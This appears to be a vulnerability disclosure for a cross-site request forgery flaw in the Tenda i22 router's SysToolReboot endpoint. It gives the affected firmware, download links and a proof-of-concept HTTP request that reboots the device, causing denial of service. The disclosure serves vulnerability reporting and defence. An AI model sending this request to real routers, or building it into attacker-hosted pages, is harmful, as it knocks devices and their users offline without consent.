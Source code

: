 # Tenda i22 V1.0.0.3(4687) is vulnerable to Cross Site Request Forgery (CSRF) via function fromSysToolReboot

## Description

`Tenda`  Router **i22 V1.0.0.3(4687)** is vulnerable to Cross Site Request Forgery (CSRF) via function `fromSysToolReboot`

## Firmware information

* Manufacturer's address: https://www.tenda.com.cn/

* Firmware download address : https://www.tenda.com.cn/download/detail-2747.html

## Affected version

![image-20221120101953226](images/01.png)

## Vulnerability details

This vulnerability lies in the `/goform/SysToolReboot` page，The details are shown below:

![image-20221120141002113](images/02.png)

![image-20221120141103919](images/04.png)

It allows remote attackers to reboot the device and cause denial of service via a payload hosted by an attacker-controlled web page.

## POC

This POC can result in a Dos.

```
GET /goform/SysToolReboot HTTP/1.1
Host: 192.168.204.133
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: bLanguage=cn; user=; password=vlz1qw
Connection: close


```

![image-20221121105432590](images/03.png)